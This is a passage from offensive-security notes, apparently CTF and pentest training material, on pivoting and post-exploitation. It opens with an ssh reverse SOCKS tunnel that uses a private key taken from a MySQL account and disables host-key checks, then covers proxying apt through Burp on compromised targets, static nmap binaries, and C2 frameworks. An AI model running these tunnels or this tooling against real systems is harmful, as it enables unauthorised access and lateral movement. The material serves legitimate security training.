 ```bash
ssh -f -N -R 1080 -o "UserKnownHostsFile=/dev/null" -o "StrictHostKeyChecking=no" -i /var/lib/mysql/.ssh/id_rsa kali@192.168.0.10
```
{% endcode %}

## Installing packages on compromised targets

If you need to install Linux packages (such as Python 2) on compromised targets and you do not have Internet access on the target but you do on Kali, you can configure **apt** on the target to use Burp on Kali as the HTTP proxy. Do note that for this to work you need Burp to listen on all interfaces or at least the interface accessible to the target. See the [last point here](https://ivanitlearning.wordpress.com/2021/06/18/how-i-use-burpsuite/).\


```
root@pivot:~/CTF/Box# export http_proxy=http://192.168.119.170:8081
root@pivot:~/CTF/Box# apt update
```

## nmap on pivot boxes

Use a static nmap binary on the target [https://github.com/ernw/static-toolbox](https://github.com/ernw/static-toolbox)

## C2 - Command & control&#x20;

With a foothold in a target network, we can start looking to bring what is known as a C2 (Command and Control) Framework into play. C2 Frameworks are used to consolidate an attacker's position within a network and simplify post-exploitation steps (privesc, AV evasion, pivoting, looting, covert network tactics, etc), as well as providing red teams with extensive collaboration features. There are many C2 Frameworks available. The most famous (and expensive) is likely [Cobalt Strike](https://www.cobaltstrike.com/); however, there are many others, including the .NET based [Covenant](https://github.com/cobbr/Covenant), [Merlin](https://github.com/Ne0nd0g/merlin), [Shadow](https://github.com/bats3c/shad0w), [PoshC2](https://github.com/nettitude/PoshC2), and many others. An excellent resource for finding (and filtering) C2 frameworks is [The C2 Matrix](https://www.thec2matrix.com/), which provides a great list of the pros and cons of a huge number of frameworks.

## References

* [https://www.synacktiv.com/publications/traces-of-windows-remote-command-execution.html](https://www.synacktiv.com/publications/traces-of-windows-remote-command-execution.html)
* [https://neil-fox.github.io/Impacket-usage-&-detection/](https://neil-fox.github.io/Impacket-usage-&-detection/)
